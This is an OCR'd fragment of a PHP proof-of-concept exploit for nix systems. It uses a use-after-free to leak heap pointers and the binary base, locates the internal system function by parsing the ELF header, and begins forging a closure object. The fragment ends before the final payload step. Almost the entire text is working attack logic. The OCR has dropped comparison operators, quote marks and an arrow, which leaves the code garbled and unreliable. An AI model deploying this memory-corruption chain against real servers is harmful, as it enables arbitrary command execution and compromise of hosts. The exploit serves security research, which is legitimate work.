     if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for nix systems only.');
    }
    
    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i  $n_alloc; $i++)
        $contiguous[] = str_shuffle(my_str_repeat('A', 79));
    
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
    
    $helper = new Helper;
    $helper-b = function ($x) { };
    
    if(strlen($abc) == 79  strlen($abc) == 0) {
        die(UAF failed);
    }
    
    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
    
    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
    
    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
    
    $closure_obj = str2ptr($abc, 0x20);
    
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die(Couldn't determine binary base address);
    }
    
    if(!($elf = parse_elf($base))) {
        die(Couldn't parse ELF header);
    }
    
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die(Couldn't get basic_functions address);
    }
    
    if(!($zif_system = get_system($basic_funcs))) {
        die(Couldn't get zif_system address);
    }
    
    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i  0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
    